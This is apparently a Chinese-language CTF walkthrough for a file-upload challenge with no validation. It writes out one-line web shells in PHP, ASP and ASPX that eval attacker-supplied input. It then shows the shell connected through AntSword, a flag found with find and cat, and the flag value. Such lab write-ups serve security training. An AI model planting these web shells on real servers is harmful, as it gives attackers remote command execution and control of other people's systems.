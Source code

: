------

### 文件上传

#### 无验证

编写`PHP`一句话木马，并上传文件。

```php
<?php @eval($_POST['t0ur1st']); ?>
```

上传成功后可以看到靶机显示：

> 上传文件相对路径
> upload/6.php

类似的一句话木马还有：

```asp
<%eval request("t0ur1st")%>
```

```aspx
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

通过`AntSword`连接靶机的`webshell`并打开终端，

```bash
$ find / -name flag*
$ cat flag_2492722517.php
<?php // ctfhub{ebfc397b4ed065684160083d}
```

提交`ctfhub{ebfc397b4ed065684160083d}`即可。

------
